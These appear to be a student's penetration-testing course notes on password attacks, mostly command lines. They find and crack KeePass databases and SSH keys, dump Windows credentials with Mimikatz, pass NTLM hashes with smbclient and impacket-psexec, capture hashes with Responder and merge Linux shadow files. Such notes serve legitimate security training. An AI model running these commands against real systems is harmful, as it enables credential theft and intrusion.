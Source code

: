 ## Section 2 Password Cracking Fundamentals
### 15.2.4 Password Manager
- Command to find keepass kdbx files:
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
- Cracking with keepass with john
		1. Get the kdbx file and remove "Database." string from the firstline
```
keepass2john <FILE> keepass.hash
```
```
hashcat --help | grep -i "keepass"
```
```
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
### 15.2.5 SSH Private Key Passphrase
- Cracking ssh id_rsa file
```
chmod 600 id_rsa
```
```
ssh2john id_rsa > ssh.hash 
```
```
hashcat -h | grep -i "ssh"
```
- Remove the leading strings/characters in the hash file and run hashcat OR make sure the following is at the top of the ssh.rule file first
```
[List.Rules:sshRules]
```
- Add ssh rules to john.conf with 
```
sudo sh -c 'cat <HASHCAT_RULE_FILE> >> /etc/john/john.conf'
```
- Crack it with john
```
john --wordlist=<WORDLIST> --rules <RULES> <HASHFILE>
```
## Section 3 Working with Password Hashes
### 15.3.1 Cracking NTLM
- Good rule for NTLM
```
hashcat -m 1000 <HASHFILE> /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
- Mimikatz commands to get SeDebugPrivilege access rights enabled use 
```
privilege::debug
```
- Extract plaintext passwords with password hashes from all available sources with 
```
sekurlsa::logonpasswords
```
- Extract NTLM hashes from the SAM with BUT FIRST USE the following to elevate to SYSTEM user privileges
```
token::elevate
```
```
lsadump::sam
```
### 15.3.2 Passing NTLM
- Pass the hash with smbclient 
```
smbclient \\\\IP\\SHARE -U <USERNAME> --pw-nt-hash <HASH>
```
- PsExec with impacket and NTLM_V1
```
impacket-psexec -hashes 00000000000000000000000000000000:<HASH> <USERNAME>@<IP>
```
### 15.3.3 Cracking Net-NTLM_V2
- Responder can capture authentication handshakes and NTLM hashes
	- To run it you have to specify the interface with the following to capture and print the hash for you to crack or use when you try to use SMB or another vector to connect
```
sudo responder -l <INTERFACE>
```
- Vector to connect with the following from a target where you have a command shell
```
dir \\<IP>\secrets
```
## John
```
unshadow /etc/passwd /etc/shadow > <HASHLIST>
```
```
john <HASHES> --format=<TYPE> --wordlist=<WORDLIST>
```
```
rm /etc/john/john.pot
```
- Rules
- /etc/john/john.conf has all the rules
- Add the following section with the header followed by hashcat style rules
```
[List.Rules:rulename]
```
```
john --rules=<RULENAME>
```
- Ssh
```
ssh2john.py id_rsa > hash
```
```
john hashfile --wordlist=/usr/share/wordlists/rockyou.txt
```